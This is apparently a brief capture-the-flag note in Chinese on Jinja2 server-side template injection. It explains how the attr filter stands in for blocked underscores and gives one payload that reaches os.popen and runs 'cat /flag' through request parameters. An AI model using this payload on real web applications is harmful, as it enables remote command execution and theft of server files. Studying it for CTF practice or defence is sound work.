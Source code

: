 # 知识点
### 通过class | attr(attribute)来代替下划线
[https://jinja.palletsprojects.com/en/2.11.x/templates/#attr](https://jinja.palletsprojects.com/en/2.11.x/templates/#attr)
# 思路
```python
?name={{(lipsum | attr(request.values.b)).os.popen(request.values.a).read()}}&a=cat /flag&b=__globals__
```

